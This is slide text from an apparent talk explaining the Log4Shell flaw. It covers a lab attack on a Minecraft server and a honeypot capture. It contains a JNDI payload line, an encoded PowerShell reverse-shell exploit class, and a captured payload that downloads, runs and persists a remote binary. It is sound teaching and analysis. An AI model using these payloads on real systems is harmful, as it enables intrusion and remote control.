

Log4Shell
How it works and how it is exploitedTopics
- How does Log4Shell work ü§î
- Hacking a vulnerable Minecraft server üñ•Ô∏è
- How is Log4Shell exploited in the wild? üå≥
- How I was attacked üò±
How does Log4Shell work ü§î
Open source logging framework for Java
Used in LOTS of Java applications
Log4Shell
A.K.A. CVE-2021-44228 , CVE-2021-45046, CVE-2021-45105 and CVE-2021-44832Log4J feature: Lookup at logging time
Java Lookup:
${java:version} → Java version 1.7.0_67The Bad lookup: JNDI Lookup
Java Naming and Directory Interface

${jndi:ldap://example.com/file} → üå©Ô∏èHow can this be abused?
- JNDI lookup payload is placed in logs
${jndi:ldap://attacker.com/exploit} - Log4J contacts the LDAP server for information
- LDAP server redirects Log4J to an HTTP server which hosts a Java class file
- Content of the class file is downloaded and executed

Hacking a vulnerable Minecraft server üñ•Ô∏è
Hacking Setup
Two (virtual) computers in the same network
- Victim's machine üôà
- Attacker's machine ü¶Å
Victim's machine üôà
- Windows 10 (with virus scanner disabled üòÖ)
- Minecraft Server (1.8.8 → Vulnerable to Log4Shell)
Attacker's machine ü¶Å
- Kali Linux
- Minecraft Client
- Marshalsec LDAP referer
- Http Server
- The (compiled and obfuscated) exploit payload
- Netcat Listener (for incoming connections)
The Exploit
[The code which are executing on the victim's machine üòà]
public class Log4jRCE {
static {
try {
Runtime.getRuntime()
.exec("powershell.exe -exec bypass -enc IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAaABjAHIAcABiACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABoAGMAcgBwAGIAIAB7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AFAAcgBvAGMAQQBkAGQAcgBlAHMAcwAoAEkAbgB0AFAAdAByACAAaABNAG8AZAB1AGwAZQAsACAAcwB0AHIAaQBuAGcAIABwAHIAbwBjAE4AYQBtAGUAKQA7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEwAbwBhAGQATABpAGIAcgBhAHIAeQAoAHMAdAByAGkAbgBnACAAbgBhAG0AZQApADsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyACIAKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABWAGkAcgB0AHUAYQBsAFAAcgBvAHQAZQBjAHQAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIABVAEkAbgB0AFAAdAByACAAZQBlAHEAZgBxAGgALAAgAHUAaQBuAHQAIABmAGwATgBlAHcAUAByAG8AdABlAGMAdAAsACAAbwB1AHQAIAB1AGkAbgB0ACAAbABwAGYAbABPAGwAZABQAHIAbwB0AGUAYwB0ACkAOwANAAoAfQANAAoAIgBAAA0ACgANAAoAQQBkAGQALQBUAHkAcABlACAAJABoAGMAcgBwAGIADQAKAA0ACgAkAHkAYQB5AG8AaABkAHEAIAA9ACAAWwBoAGMAcgBwAGIAXQA6ADoATABvAGEAZABMAGkAYgByAGEAcgB5ACgAIgAkACgAWwBjAEgAQQBSAF0AKABbAGIAeQB0AEUAXQAwAHgANgAxACkAKwBbAGMASABhAHIAXQAoAFsAYgBZAFQARQBdADAAeAA2AGQAKQArAFsAYwBoAEEAcgBdACgAWwBCAFkAdABlAF0AMAB4ADcAMwApACsAWwBjAEgAYQBSAF0AKABbAEIAWQB0AGUAXQAwAHgANgA5ACkAKwBbAGMASABhAHIAXQAoADQANgApACsAWwBDAGgAYQBSAF0AKABbAGIAWQB0AGUAXQAwAHgANgA0ACkAKwBbAGMAaABBAFIAXQAoADEAMAA4ACsANgAwAC0ANgAwACkAKwBbAGMASABBAFIAXQAoAFsAYgB5AHQARQBdADAAeAA2AGMAKQApACIAKQANAAoAJABtAHcAagB6AGsAaAAgAD0AIABbAGgAYwByAHAAYgBdADoAOgBHAGUAdABQAHIAbwBjAEEAZABkAHIAZQBzAHMAKAAkAHkAYQB5AG8AaABkAHEALAAgACIAJAAoAFsAYwBoAEEAUgBdACgANgA1ACoANQA3AC8ANQA3ACkAKwBbAGMAaABBAHIAXQAoAFsAYgBZAHQARQBdADAAeAA2AGQAKQArAFsAQwBIAGEAUgBdACgAWwBCAFkAdABFAF0AMAB4ADcAMwApACsAWwBjAGgAYQByAF0AKABbAGIAeQB0AGUAXQAwAHgANgA5ACkAKwBbAGMASABBAHIAXQAoADgAMwApACsAWwBjAGgAYQByAF0AKABbAEIAeQBUAEUAXQAwAHgANgAzACkAKwBbAGMAaABBAFIAXQAoADkANwAqADkALwA5ACkAKwBbAEMAaABBAHIAXQAoAFsAQgBZAFQAZQBdADAAeAA2AGUAKQArAFsAYwBoAGEAcgBdACgAWwBiAHkAdABFAF0AMAB4ADQAMgApACsAWwBjAEgAQQByAF0AKAAxADEANwApACsAWwBDAEgAQQBSAF0AKAAzADUAKwA2ADcAKQArAFsAQwBoAGEAUgBdACgAMQAwADIAKwA0ADEALQA0ADEAKQArAFsAQwBoAGEAcgBdACgAWwBiAFkAVABlAF0AMAB4ADYANQApACsAWwBjAGgAYQBSAF0AKAAxACsAMQAxADMAKQApACIAKQANAAoAJABwACAAPQAgADAADQAKAFsAaABjAHIAcABiAF0AOgA6AFYAaQByAHQAdQBhAGwAUAByAG8AdABlAGMAdAAoACQAbQB3AGoAegBrAGgALAAgAFsAdQBpAG4AdAAzADIAXQA1ACwAIAAwAHgANAAwACwAIABbAHIAZQBmAF0AJABwACkADQAKACQAdwBmAHAAegAgAD0AIAAiADAAeABCADgAIgANAAoAJABiAHYAbABmACAAPQAgACIAMAB4ADUANwAiAA0ACgAkAGgAZQBhAHAAIAA9ACAAIgAwAHgAMAAwACIADQAKACQAcgBxAHIAYwAgAD0AIAAiADAAeAAwADcAIgANAAoAJAB5AGcAbwBxACAAPQAgACIAMAB4ADgAMAAiAA0ACgAkAGIAeABkAHgAIAA9ACAAIgAwAHgAQwAzACIADQAKACQAaABsAGEAagBjACAAPQAgAFsAQgB5AHQAZQBbAF0AXQAgACgAJAB3AGYAcAB6ACwAJABiAHYAbABmACwAJABoAGUAYQBwACwAJAByAHEAcgBjACwAKwAkAHkAZwBvAHEALAArACQAYgB4AGQAeAApAA0ACgBbAFMAeQBzAHQAZQBtAC4AUgB1AG4AdABpAG0AZQAuAEkAbgB0AGUAcgBvAHAAUwBlAHIAdgBpAGMAZQBzAC4ATQBhAHIAcwBoAGEAbABdADoAOgBDAG8AcAB5ACgAJABoAGwAYQBqAGMALAAgADAALAAgACQAbQB3AGoAegBrAGgALAAgADYAKQANAAoADQAKACQAYwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAiADEAOQAyAC4AMQA2ADgALgAxADQAMQAuADEAMwAxACIALAA5ADgAOQA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==")
.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
The Attack
How is Log4Shell exploited in the wild? üå≥
And why is the Internet still working?Current State:
Not as bad as feared
...yet
 therecord.media - 10.01.2022
therecord.media - 10.01.2022
Automated exploitation in progress
greynoise.io - With Log4J RCE Attempt filterVMWare Horizon Campaign
Large scale Campaign targeting unpatched internet facing VMWare Horizon installations - 11.01.2022
Some Theories
Theory 1
Bad guys can't code java üî•
 Patrick Grey - Host of the Risky Business podcast
Patrick Grey - Host of the Risky Business podcast
Theory 2
Log processing can be unpredictable in enterprise apps
Theory 3
Attackers wait to use the compromised machines when attention wanders off
How I was attacked üò±
My üçØ story
Then the waiting game started
Timeline
- 15.12.21 üçØ installed
- 16.12.21 first automated scans incoming
- nothing ü•±
- nothing üòî
- 03.01.22 first user joins my honeypot server
- 13.01.22 someone tries to hack me ü•∞

Looking at the logs
New connection from 195.154.52.77:36734
Received handshake: 754 2 143.244.178.253:25565
Testing text: FermatSleep
FermatSleep joined the server
Testing text: ${jndi:ldap://195.154.52.77:1389/a}
Fetching payload for: jndi:ldap://195.154.52.77:1389/a
Saved payload to file d014fd3d-e92b-4479-b568-50d8a40c89d0.class
Decompiling the payload
public class Exploit {
public static String script;
public static String execCmd(final String s) {
String s2 = null;
final String[] cmdarray = { "/bin/sh", "-c", s };
try (final InputStream inputStream = Runtime.getRuntime().exec(cmdarray).getInputStream();
final Scanner useDelimiter = new Scanner(inputStream).useDelimiter("\\A")) {
s2 = (useDelimiter.hasNext() ? useDelimiter.next() : null);
}
catch (IOException ex) {
ex.printStackTrace();
}
return s2;
}
public Exploit() throws Exception {
execCmd(Exploit.script);
}
static {
Exploit.script = "url=http://195.154.52.77:8000/mc_server.jar;remote_ip=195.154.52.77;port=$(wget -O- http://$remote_ip:8000/port 2>/dev/null) ;[ $? -ne 0 ] && port=$(curl http://$remote_ip:8000/port 2>/dev/null) ;wget --no-check-certificate $url > /dev/null 2>&1 || curl -k -O $url > /dev/null 2>&1 ;chmod +x ./mc_server.jar;nohup ./mc_server.jar -b $port > /dev/null 2>&1 &cmd=\"$(pwd)/mc_server.jar -b $port\";(crontab -l ; echo \"@reboot $cmd\" ) | sort - | uniq - | crontab - ;echo done ;";
}
}
The exploitation command
url=http://195.154.52.77:8000/mc_server.jar
remote_ip=195.154.52.77
port=$(wget -O- http://$remote_ip:8000/port 2>/dev/null)
[ $? -ne 0 ] && port=$(curl http://$remote_ip:8000/port 2>/dev/null)
wget --no-check-certificate $url > /dev/null 2>&1 || curl -k -O $url > /dev/null 2>&1
chmod +x ./mc_server.jar
nohup ./mc_server.jar -b $port > /dev/null 2>&1 &cmd="$(pwd)/mc_server.jar -b $port"
(crontab -l echo "@reboot $cmd" ) | sort - | uniq - | crontab -
echo done
mc_server.jar ü§î
Let's have a look at itVirustotal
Seems to be som kind of reverse shellInvestigating the file
Not a jar file, it's an executablestrings
Binary was generated from gomore strings
Password and ssh public key?and more strings
Reverse SSH

Ghidra
First attack server
Second attack server
Reporting them to their hosters
Reporting them to their hosters
More people noticed
Servers got taken down around the 20.01.2022
No more attacks since.

Sources
- en.wikipedia.org/wiki/Log4Shell
- Log4J lookups
- JNDI architecture
- Tryhackme exploit walkthrough
- John Hammond Log4Shell explanation
- LDAP referer
- CISA Report
- greynoise.io Log4J attacks
- Risky.biz information security podcast
- VMWare Horizon ransomware campaign
- Minecraft Honeypot
- ReverseSSH
- AbuseIPDB - check suspicious ips
- Bithole article
- Reddit Threat